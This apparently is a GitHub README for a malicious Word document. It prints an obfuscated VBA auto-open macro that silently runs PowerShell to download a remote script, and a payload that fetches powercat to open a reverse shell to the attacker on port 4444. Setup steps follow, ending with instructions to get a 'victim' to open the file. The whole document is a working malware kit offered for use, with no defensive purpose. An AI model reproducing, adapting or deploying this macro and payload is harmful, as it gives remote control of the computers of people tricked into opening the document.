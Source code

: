 # MS Word virus

`document.docm` is a Word document with an obfuscated macro that will activate when the document is opened.

## The Macro

The macro:
```vba
Sub Auto_Open()
Dim first As String
Dim second As String
Dim third As String
Dim fourth As String
Dim fifth As String
Dim sixth As String
Dim seventh As String
Dim eighth As String
Dim ninth As String
Dim tenth As String
Dim eleventh As String
Dim twelfth As String
Dim thirteenth As String
Dim fourteenth As String
Dim fifteenth As String
Dim sixteenth As String
Dim seventeenth As String
Dim cmd As String
first = ChrW(112) & ChrW(111) & ChrW(119) & ChrW(101) & ChrW(114) & ChrW(115) & ChrW(104) & ChrW(101) & ChrW(108) & ChrW(108)
second = ChrW(46) & ChrW(101) & ChrW(120) & ChrW(101) & ChrW(32) & ChrW(45) & ChrW(119) & ChrW(32) & ChrW(104) & ChrW(105)
third = ChrW(100) & ChrW(100) & ChrW(101) & ChrW(110) & ChrW(32) & ChrW(45) & ChrW(99) & ChrW(32) & ChrW(34) & ChrW(73)
fourth = ChrW(69) & ChrW(88) & ChrW(32) & ChrW(40) & ChrW(78) & ChrW(101) & ChrW(119) & ChrW(45) & ChrW(79) & ChrW(98)
fifth = ChrW(106) & ChrW(101) & ChrW(99) & ChrW(116) & ChrW(32) & ChrW(83) & ChrW(121) & ChrW(115) & ChrW(116) & ChrW(101)
sixth = ChrW(109) & ChrW(46) & ChrW(78) & ChrW(101) & ChrW(116) & ChrW(46) & ChrW(87) & ChrW(101) & ChrW(98) & ChrW(67)
seventh = ChrW(108) & ChrW(105) & ChrW(101) & ChrW(110) & ChrW(116) & ChrW(41) & ChrW(46) & ChrW(68) & ChrW(111) & ChrW(119)
eighth = ChrW(110) & ChrW(108) & ChrW(111) & ChrW(97) & ChrW(100) & ChrW(83) & ChrW(116) & ChrW(114) & ChrW(105) & ChrW(110)
ninth = ChrW(103) & ChrW(40) & ChrW(39) & ChrW(104) & ChrW(116) & ChrW(116) & ChrW(112) & ChrW(115) & ChrW(58) & ChrW(47)
tenth = ChrW(47) & ChrW(114) & ChrW(97) & ChrW(119) & ChrW(46) & ChrW(103) & ChrW(105) & ChrW(116) & ChrW(104) & ChrW(117)
eleventh = ChrW(98) & ChrW(117) & ChrW(115) & ChrW(101) & ChrW(114) & ChrW(99) & ChrW(111) & ChrW(110) & ChrW(116) & ChrW(101)
twelfth = ChrW(110) & ChrW(116) & ChrW(46) & ChrW(99) & ChrW(111) & ChrW(109) & ChrW(47) & ChrW(87) & ChrW(105) & ChrW(110)
thirteenth = ChrW(112) & ChrW(97) & ChrW(114) & ChrW(87) & ChrW(105) & ChrW(110) & ChrW(112) & ChrW(97) & ChrW(114) & ChrW(47)
fourteenth = ChrW(109) & ChrW(115) & ChrW(45) & ChrW(119) & ChrW(111) & ChrW(114) & ChrW(100) & ChrW(45) & ChrW(118) & ChrW(105)
fifteenth = ChrW(114) & ChrW(117) & ChrW(115) & ChrW(47) & ChrW(109) & ChrW(97) & ChrW(105) & ChrW(110) & ChrW(47) & ChrW(112)
sixteenth = ChrW(97) & ChrW(121) & ChrW(108) & ChrW(111) & ChrW(97) & ChrW(100) & ChrW(46) & ChrW(116) & ChrW(120) & ChrW(116)
seventeenth = ChrW(39) & ChrW(41) & ChrW(34)
cmd = first + second + third + fourth + fifth + sixth + seventh + eighth + ninth + tenth + eleventh + twelfth + thirteenth + fourteenth + fifteenth + sixteenth + seventeenth
Shell (cmd)
End Sub
Sub AutoOpen()
Auto_Open
End Sub
Sub Workbook_Open()
Auto_Open
End Sub
```

When the macro runs, it gets the contents of `payload.txt` and runs it as a powershell script.

`payload.txt`:
```powershell
IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
powercat -c ###.###.###.### -p 4444 -e powershell.exe
```

`payload.txt` downloads `powecat`, than connects to a `NetCat` server on port 4444, using `powershell` as the shell.

## Setting it up

To set it up:
1. Create a ***private*** repo.
2. Create a file called `payload.txt` and paste the contents of the `payload.txt` from this repo, replacing `###.###.###.###` with your current IP address.

To get your IP address on Mac, run the following command:
```shell
echo $(ifconfig | grep broadcast | awk '{ print $2 }')
```
For Windows do the following command:
```batch
ipconfig
```
Then, look for [thing]. That will be your IP address.

3. Using the [command obfuscator for VBA](https://www.dropbox.com/s/38g95s4g2v7eclj/Obfuscate.jar?dl=1), obfuscate `powershell.exe -w hidden -c "IEX ((new-object net.webclient).downloadstring('https://raw.githubusercontent.com/[your username]/[repo name]/[branch name]/payload.txt'))"`. Replace [your username] with your GitHub username, [repo name] with the name of the repo created in step 1 and [branch name] with the name of the branch that has `payload.txt` in it.
4. Open `document.docm` in MS Word.
5. Edit the `Auto_Open` macro (View > Macros > View Macros > Auto_Open).
6. Select everthing, including the other `Sub`s (functions).
7. Paste the code from step 3 (already copied to clipboard).
8. Click the purple floppy disk icon in the top left to save the macro, than X out of that window.
9. Then you can do whatever with the document (making sure not to delete the `Auto_Open`, `AutoOpen` and `Workbook_Open` macros).
10. Then, just get your victim to open the document. Make sure to add them to the repo.
